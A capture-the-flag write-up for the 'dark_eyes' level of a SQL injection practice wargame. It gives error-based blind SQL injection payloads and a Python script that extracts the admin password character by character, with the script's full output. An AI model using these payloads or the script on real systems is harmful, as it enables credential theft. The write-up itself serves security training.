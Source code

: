 ```yaml
---
custom_edit_url: null
sidebar_position: 22
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/cbd65f64-4c89-44f4-b041-b362993f22dd)

We are provided with the SQL query:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='{$_GET[pw]}'
```

## Filter

This challenge filters out the following:
- `col`
- `if`
- `case`
- `when`
- `sleep`
- `benchmark`


This level also exits when an error is invoked instead of revealing the error message.

## Error-based Blind SQL Injection

### ERROR: Subquery returned more than 1 value error

In SQL the subquery can only return one value.

```sql
## Valid:
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1) -- -'

## Invalid:
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2) -- -'
```

This is the error that we will be exploiting.

### Revealing the password length

If we provide the following URI parameter:

```
?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=1) -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=1) -- -'
```

The above SQL query includes the subquery `(SELECT 1 UNION SELECT 2 where id='admin' and length(pw)=1)` which returns two values if the `length(pw)=1` for `id='admin'`. This would invoke an error and cause the challenge to exit.

![2](https://github.com/Kunull/Write-ups/assets/110326359/29f2c0b3-d400-4043-8ce0-5a0c461edf1d)

Since the challenge did not exit, it means that the subquery only returned one value `SELECT 1`. This tells us that the length of the `pw` for `id='admin'` is more than 1.

If we keep increasing the length and provide the following URI parameter:

```
?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=8) -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=8) -- -'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/fc84a7c5-6e2b-48c9-98e0-3c568896f8ed)

The subquery returned two values `SELECT 1 UNION SELECT 2` because the length of `pw` for `id='admin'` is 8. This caused an error, causing the challenge to exit.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

If we provide the following URI parameter:

```
?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='0') -- -
```

The resultant query will be:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='0') -- -'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/9b457365-e10b-441b-8118-a7b79af680c8)

Since the challenge did not exit, it means that the subquery only returned one value `SELECT 1`. This tells us that the first character of the `pw` for `id='admin'` is not `0`.

We can try other characters moving up to the following:

```
?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='5') -- -
```

The resultant query will be:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='5') -- -'
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/e62cdc7f-f0c7-4e9e-9177-e345970208a6)

The subquery returned two values `SELECT 1 UNION SELECT 2` because the first character of `pw` for `id='admin'` is ``5`. This caused an error, causing the challenge to exit.

We can keep repeating this process until we get all the eight characters of the `admin` password:

```
5a2f5d3c
```

### Script

```python title="dark_eyes_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'rvrb7p6vumnf7hu5ukb8f70gj8'}
url = "https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php"
password_length = 0

for x in range(0, 100):
  payload = f"' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)={x}) -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "prob_dark_eyes" not in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Payload (URL encoded): ?pw={encoded_payload}")
print(f"[!] Password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, {index}, 1)='{char}') -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "prob_dark_eyes" not in response.text:
      password += char
      print()
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Payload (URL encoded): ?pw={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$ python .\dark_eyes_script.py

[!] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=8) -- -
[!] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+length%28pw%29%3D8%29+--+-
[!] Password length: 8

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='5') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+1%2C+1%29%3D%275%27%29+--+-
[+] Character at index 1: 5

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 2, 1)='a') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+2%2C+1%29%3D%27a%27%29+--+-
[+] Character at index 2: a

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 3, 1)='2') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+3%2C+1%29%3D%272%27%29+--+-
[+] Character at index 3: 2

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 4, 1)='f') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+4%2C+1%29%3D%27f%27%29+--+-
[+] Character at index 4: f

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 5, 1)='5') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+5%2C+1%29%3D%275%27%29+--+-
[+] Character at index 5: 5

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 6, 1)='d') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+6%2C+1%29%3D%27d%27%29+--+-
[+] Character at index 6: d

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 7, 1)='3') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+7%2C+1%29%3D%273%27%29+--+-
[+] Character at index 7: 3

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 8, 1)='c') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+8%2C+1%29%3D%27c%27%29+--+-
[+] Character at index 8: c

[!] Extracted password: 5a2f5d3c
[!] Final payload: ?pw=5a2f5d3c
```


If we provide the following URI parameter:

```
?pw=5a2f5d3c
```

The resultant query becomes:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='5a2f5d3c'
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/e6a9c9b4-8d34-4c6a-9bf4-3a9538a4cb5d)
